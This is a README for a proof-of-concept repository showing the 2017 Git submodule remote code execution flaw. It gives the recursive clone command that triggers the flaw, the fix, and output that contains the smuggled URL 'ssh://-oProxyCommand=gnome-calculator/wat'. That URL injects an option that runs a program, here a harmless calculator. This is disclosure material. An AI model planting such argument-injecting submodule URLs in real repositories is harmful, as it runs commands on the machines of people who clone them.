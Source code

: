 # Git clone RCE

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns using a git submodule.

To see it in action, simply clone the repo using:
```
git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

To be safe - upgrade to Git 2.14.1 as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).

After updating the issue is gone:
```
$ git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```
